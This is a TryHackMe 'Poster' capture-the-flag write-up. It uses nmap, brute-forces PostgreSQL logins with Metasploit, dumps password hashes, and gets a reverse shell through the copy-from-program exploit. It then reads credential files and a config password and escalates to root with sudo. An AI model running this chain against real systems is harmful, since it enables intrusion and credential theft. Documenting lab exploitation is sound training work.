

# Poster

**Date:** 16, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/poster) to go to the TryHackMe room.

## Introduction

- Depending on the **EF Codd relational model**, an RDBMS allows users to build, update, manage, and interact with a relational database, which stores data as a table.
- Relational database can handle a wide range of data formats and process queries efficiently.
- Most commercially available RDBMSs currently use Structured Query Language (SQL) to access the database.
- RDBMS structures are most commonly used to perform CRUD operations (create, read, update, and delete), which are critical to support consistent data management.

---

## Enumeration

### Nmap Scan

```bash
$ nmap -sC -sV 10.10.181.37 -p- -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-16 14:54 IST
Nmap scan report for 10.10.181.37
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
|   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
|_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Poster CMS
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.21
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 619.08 seconds
```



### What is the rdbms installed on the server?
- **Answer:** postgresql


### What port is the rdbms running on?
- **Answer:** 5432

---

## Metasploit

- Metasploit contains a variety of modules that can be used to enumerate in multiple rdbms, making it easy to gather valuable information.

### After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?
- **Answer:** auxiliary/scanner/postgres/postgres_login
- **Steps to Reproduce:** Search for Postgres

### What are the credentials you found?
- **Answer:** postgres:password
- **Steps to Reproduce:** 

```bash
msf6 > use auxiliary/scanner/postgres/postgres_login
msf6 auxiliary(scanner/postgres/postgres_login) > options

Module options (auxiliary/scanner/postgres/postgres_login):

   Name              Current Setting                          Required  Description
   ----              ---------------                          --------  -----------
   BLANK_PASSWORDS   false                                    no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                        yes       How fast to bruteforce, from 0 to 5
   DATABASE          template1                                yes       The database to authenticate against
   DB_ALL_CREDS      false                                    no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                    no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                    no        Add all users in the current database to the list
   PASSWORD                                                   no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wo  no        File containing passwords, one per line
                     rdlists/postgres_default_pass.txt
   Proxies                                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RETURN_ROWSET     true                                     no        Set to true to see query result sets
   RHOSTS                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'f
                                                                        ile:<path>'
   RPORT             5432                                     yes       The target port
   STOP_ON_SUCCESS   false                                    yes       Stop guessing when a credential works for a host
   THREADS           1                                        yes       The number of concurrent threads (max one per host)
   USERNAME                                                   no        A specific username to authenticate as
   USERPASS_FILE     /usr/share/metasploit-framework/data/wo  no        File containing (space-separated) users and passwords, one pair per lin
                     rdlists/postgres_default_userpass.txt              e
   USER_AS_PASS      false                                    no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wo  no        File containing users, one per line
                     rdlists/postgres_default_user.txt
   VERBOSE           true                                     yes       Whether to print output for all attempts

msf6 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 10.10.181.37
RHOSTS => 10.10.181.37
msf6 auxiliary(scanner/postgres/postgres_login) > exploit

[-] 10.10.181.37:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.181.37:5432 - Login Successful: postgres:password@template1
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.181.37:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


---

### What is the full path of the module that allows you to execute commands with the proper user credentials (starting with auxiliary)?
- **Answer:** auxiliary/admin/postgres/postgres_sql
- **Steps to Reproduce:** Search for Postgres

### Based on the results of #6, what is the rdbms version installed on the server?
- **Answer:** 9.5.21
- **Steps to Reproduce:** 

```bash
msf6 > use auxiliary/scanner/postgres/postgres_version
msf6 auxiliary(scanner/postgres/postgres_version) > options

Module options (auxiliary/scanner/postgres/postgres_version):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output


msf6 auxiliary(scanner/postgres/postgres_version) > set RHOSTS 10.10.181.37
RHOSTS => 10.10.181.37

msf6 auxiliary(scanner/postgres/postgres_version) > set PASSWORD password
PASSWORD => password

msf6 auxiliary(scanner/postgres/postgres_version) > exploit

[*] 10.10.181.37:5432 Postgres - Version PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit (Post-Auth)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


### What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?
- **Answer:** auxiliary/scanner/postgres/postgres_hashdump
- **Steps to Reproduce:** Search for postgres

### How many user hashes does the module dump?
- **Answer:** 6
- **Steps to Reproduce:** 

```bash
msf6  > use auxiliary/scanner/postgres/postgres_hashdump
msf6 auxiliary(scanner/postgres/postgres_hashdump) > options

Module options (auxiliary/scanner/postgres/postgres_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  postgres         yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as

msf6 auxiliary(scanner/postgres/postgres_hashdump) > set RHOSTS 10.10.181.37
RHOSTS => 10.10.181.37

msf6 auxiliary(scanner/postgres/postgres_hashdump) > set PASSWORD password
PASSWORD => password

msf6 auxiliary(scanner/postgres/postgres_hashdump) > exploit

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---

### What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?
- **Answer:** auxiliary/admin/postgres/postgres_readfile

### What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?
- **Answer:** exploit/multi/postgres/postgres_copy_from_program_cmd_exec

---

## Initial Access

```bash
msf6 > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > options

Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   DATABASE           template1        yes       The database to authenticate against
   DUMP_TABLE_OUTPUT  false            no        select payload command output from table (For Debugging)
   PASSWORD           postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              5432             yes       The target port (TCP)
   TABLENAME          YL9S0cxgNdR      yes       A table name that does not exist (To avoid deletion)
   USERNAME           postgres         yes       The username to authenticate as


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 10.10.181.37
RHOSTS => 10.10.181.37
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST tun0
LHOST => 10.17.7.91
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.17.7.91:4444 
[*] 10.10.181.37:5432 - 10.10.181.37:5432 - PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
[*] 10.10.181.37:5432 - Exploiting...
[+] 10.10.181.37:5432 - 10.10.181.37:5432 - YL9S0cxgNdR dropped successfully
[+] 10.10.181.37:5432 - 10.10.181.37:5432 - YL9S0cxgNdR created successfully
[+] 10.10.181.37:5432 - 10.10.181.37:5432 - YL9S0cxgNdR copied successfully(valid syntax/command)
[+] 10.10.181.37:5432 - 10.10.181.37:5432 - YL9S0cxgNdR dropped successfully(Cleaned)
[*] 10.10.181.37:5432 - Exploit Succeeded
[*] Command shell session 1 opened (10.17.7.91:4444 -> 10.10.181.37:52460) at 2021-06-16 15:24:01 +0530

ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Jul 28  2020 .
drwxr-xr-x 22 root   root   4096 Jul 28  2020 ..
drwxr-xr-x  4 alison alison 4096 Jul 28  2020 alison
drwxr-xr-x  2 dark   dark   4096 Jul 28  2020 dark

ls -la /home/dark
total 28
drwxr-xr-x 2 dark dark 4096 Jul 28  2020 .
drwxr-xr-x 4 root root 4096 Jul 28  2020 ..
-rw------- 1 dark dark   26 Jul 28  2020 .bash_history
-rw-r--r-- 1 dark dark  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dark dark 3771 Aug 31  2015 .bashrc
-rwxrwxrwx 1 dark dark   24 Jul 28  2020 credentials.txt
-rw-r--r-- 1 dark dark  655 May 16  2017 .profile

cat /home/dark/credentials.txt
dark:REDACTED
```

---

## Dark User

```bash
ssh dark@10.10.181.37
dark@10.10.181.37's password: 
Last login: Wed Jun 16 03:15:14 2021 from 10.17.7.91
$ ls
credentials.txt
$ whoami
dark
$ cd /home
$ ls
alison  dark
$ cd alison
$ ls 
user.txt
$ cat user.txt  
cat: user.txt: Permission denied
```

- To read the `user.txt`, we need have access as `alison`
- By searching through the file system, find a configuration file:

```bash
$ cd /var/www/html
$ ls
config.php  poster
$ cat config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "REDACTED";
        $dbname = "mysudopassword";
?>
```

---

## Alison user

- Switch to alison to get access to `user.txt`

```bash
$ su alison
Password: 
alison@ubuntu:~$ whoami
alison
alison@ubuntu:~$ ls
user.txt
alison@ubuntu:~$ cat user.txt
REDACTED
```

---

## Privilege Escalation

- Alison can run any command as any user!
- So switch to root user and read `root.txt`:

```bash
alison@ubuntu:~$ sudo -l
[sudo] password for alison: 
Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL

alison@ubuntu:~$ sudo su
root@ubuntu:~/home/alison# whoami
root
root@ubuntu:/home/alison# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
REDACTED
```

----